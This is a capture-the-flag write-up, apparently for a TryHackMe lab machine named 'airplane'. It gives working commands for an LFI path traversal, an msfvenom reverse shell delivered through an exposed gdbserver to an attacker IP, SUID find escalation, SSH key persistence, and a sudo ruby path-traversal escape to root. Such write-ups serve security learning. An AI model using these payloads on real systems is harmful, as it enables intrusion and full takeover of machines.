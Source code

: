 > Are you ready to fly?
#### Steps
1. Started out with an nmap scan `nmap -sV 10.10.101.33 -v`
2. Got the ports `22` and `8000`, ssh and http
3. Navigating to `10.10.101.33:8000`, I got redirected to `airplane.thm`
4. I added this to my host file for DNS resolution with:
```shell
sudo sh -c "echo '10.10.101.33 airplane.thm' >> /etc/hosts"
```
5. Navigating to the page, I found the page file specified with a page parameter -> `http://airplane.thm:8000/?page=index.html`
6. After checking source to make sure I didn't miss anything else, I modified the file path to grab `/etc/passwd`
```
http://airplane.thm:8000/?page=/../../../../etc/passwd
```
7. Easy LFI with no filters <333
8. From the file I found two users:
```
carlos:x:1000:1000:carlos,,,:/home/carlos:/bin/bash
hudson:x:1001:1001::/home/hudson:/bin/bash
```
9. I tried to use the same path traversal to read potential `user.txt` files in the home folders, but all I could find was a `.bashrc` file under hudsons directory (also I checked for ssh keys (`/.ssh/id_rsa`), there were none)
10. One interesting thing is the `carlos,,,` section of carlos's line the in the /etc/passwd file
11. This is the `GECOS` section, and the following commas just mean that phone number, email, etc parameters are empty
12. So relatively useless </3 (but hey new info to me)
13. I tried running `hydra` to bruteforce `ssh` with the new usernames, but I didn't have much luck
14. Going back to the site itself, I decided to run a scan on all ports `-p- -T5` to see if there were any other processes I missed
15. From this I found port `6048`
```
PORT     STATE SERVICE VERSION
6048/tcp open  x11?
```
16. Ok strange
17. My only guess was trying to find out what processes were running by checking files manually
18. All of this info is in the `/proc` directory
19. Most `/proc` subdirectories are PIDs (numbers) so automating requests shouldn't be too difficult
20. So I wrote a VERY barebones python script
```python
import requests

for pid in range(1, 1001):
    url = f"http://airplane.thm:8000/?page=/../../../../proc/{pid}/cmdline"
    try:
        res = requests.get(url, timeout=1) 
        print(pid, res.text)
    except requests.exceptions.RequestException as e:
        print(f"Error fetching PID {pid}: {e}")
```
21. Took about 5000000 years to run but it worked!
22. Interesting results:
```
374 avahi-daemon: running [airplane.local]
529 /usr/bin/gdbserver0.0.0.0:6048airplane
```
23. Looking into `gdbserver`
```
└─$ searchsploit gdbserver                                     
------------------------------------------------- ---------------------------------
 Exploit Title                                   |  Path
------------------------------------------------- ---------------------------------
GNU gdbserver 9.2 - Remote Command Execution (RC | linux/remote/50539.py
------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
24. I used metasploit to exploit gdbserver (reference: https://book.hacktricks.xyz/network-services-pentesting/pentesting-remote-gdbserver)
```shell
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.2.13.251 LPORT=7777 PrependFork=true -f elf -o exploit.elf
```
25. Make it executable with `chmod +x` and run it with `gdb exploit.elf`
26. Then on gdb I ran `target extended-remote 10.10.101.33:6048`
27. Set up a netcat listener on port `7777` (or wtv you choose) then transfer over the shell
```
(gdb) remote put exploit.elf /tmp/exploit.elf
(gdb) set remote exec-file /tmp/exploit.elf
(gdb) run

└─$ nc -lvnp 7777 
listening on [any] 7777 ...
connect to [10.2.13.251] from (UNKNOWN) [10.10.166.15] 39078
whoami
hudson
```
28. Stabilize the shell `python3 -c 'import pty;pty.spawn("/bin/bash")'`
29. There nothing in hudsons dir so we have to move to carlos
30. No sudo -l (because no passwod) so I checked binary perms first
31. `/usr/bin/find` showed up which is exploitable (https://gtfobins.github.io/gtfobins/find/)
32. `find . -exec /bin/sh -p \; -quit`
33. From there navigate to carlos and grab user.txt
34. Next privilege escalation
35. To ssh as carlos:
```shell
# host machine
ssh-keygen

# rev shell
echo "your public key" >> /home/carlos/.ssh/authorized_keys
```
36. `ssh -i` with your private key file
37. Running `sudo -l`
```
carlos@airplane:~$ sudo -l
Matching Defaults entries for carlos on airplane:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User carlos may run the following commands on airplane:
    (ALL) NOPASSWD: /usr/bin/ruby /root/*.rb
```
38. gtfobins gives this command `ruby -e 'exec "/bin/sh"'` but since we can only run ruby files in the root directory there has to be a workaround
39. File traversal! (kinda)
```
carlos@airplane:~$ echo 'exec "/bin/sh"' >> /tmp/test.rb
carlos@airplane:~$ sudo ruby /root/../tmp/test.rb
# whoami
root
```
40. Done!
